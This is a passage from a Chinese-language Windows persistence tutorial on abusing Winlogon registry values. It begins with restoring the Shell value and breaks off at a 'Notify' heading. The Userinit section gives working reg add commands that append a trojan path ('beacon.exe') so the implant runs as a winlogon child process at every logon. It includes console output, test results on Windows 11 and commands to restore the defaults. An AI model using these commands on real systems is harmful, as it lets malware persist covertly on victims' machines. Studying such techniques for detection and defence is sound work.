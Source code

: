 恢复默认值。

```plaintext
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /d "explorer.exe" /f
```

PS：Windows 11 H2 (22621.1635) HKCU 和 HKLM 都成功执行。

2.Userinit

默认值

```plaintext
PS C:\Users\gbb> reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
    Userinit    REG_SZ    C:\windows\system32\userinit.exe,
```

直接修改值，在逗号后面新增木马绝对路径，放 C:\\windows\\system32 下或是其他位置都行。

```plaintext
PS C:\Users\123> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\WIndows\System32\userinit.exe, C:\Users\123\Desktop\beacon.exe" /f
操作成功完成。
PS C:\Users\123> reg query  "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    Userinit    REG_SZ    C:\WIndows\System32\userinit.exe, C:\Users\123\Desktop\beacon.exe
```

重启登录即生效，直接作为 winlogon 子进程运行。

![Userinit 进程运行状态.png](assets/1708583418-94978a208916633ea4f44e24da0b3cd2.png)

恢复默认值。

```plaintext
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Userinit" /t REG_SZ /d "C:\Windows\System32\userinit.exe" /f
```

PS：Windows 11 H2 (22621.1635) HKCU 没有执行。

3.Notify
